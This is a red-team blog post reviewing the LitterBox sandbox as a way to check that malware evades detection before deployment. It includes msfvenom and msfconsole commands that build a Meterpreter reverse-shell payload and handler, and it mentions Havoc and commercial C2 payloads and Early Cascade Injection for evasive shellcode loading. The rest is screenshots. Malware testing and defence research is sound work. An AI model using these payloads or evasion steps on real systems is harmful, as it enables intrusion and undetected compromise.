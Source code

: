 ```yaml
---
layout: post
title: "LitterBox: The Sandbox for Malware Developers"
date: 2025-02-19 00:32:00 +0100
categories:
  - Red Team
  - Malware
author: kuom
---
```

It is important to test malware before deploying it to make sure it is FUD (Fully Undetectable) and it doesn't have any IoC (Indicator of Compromise). <br>
Lately I tried a nice [sandbox](https://github.com/BlackSnufkin/LitterBox). It offers both analysis and dynamic analysis, plus scanning a running process and doing memory analysis at runtime.
### Installation
Recommended on Windows; fairly simple: git clone and execute python litterbox.py.
### Samples
We will try different samples, from a basic meterpreter reverse shell to more advanced payloads.
The focus today is to test how this sandbox react and with different level C2 and different levels of evasiveness.
#### Meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=<host> LPORT=<ip>
msfconsole
use exploit/multi/handler
set LPORT <port>
set LHOST <ip>
```
![[/assets/Screenshot-2025-01-21 161217.png]]
![[/assets/Screenshot-2025-01-21 161301.png]]
#### Havoc
Set up an https listener and generate a payload with the following options, this time we wll use the Active process sandbox capabilities
![[/assets/Screenshot-2025-01-21 151238.png]]
##### Active Process Inspection
![[/assets/Screenshot 2025-01-21 162202.png]]

![[/assets/Screenshot-2025-01-21 162224.png]]

![[/assets/Screenshot-2025-01-21 162318.png]]
#### Commercial C2
![[Pasted-image-20250122185634.png]]
#### Early Cascade Injection + Meterpreter shellcode
For the last one, I will load the shellcode using the Early Cascade Injection technique. It seems fairly effective regarding evasiveness.
Read more [here](https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/).
![[/assets/Pasted-image-20250122184535.png]]
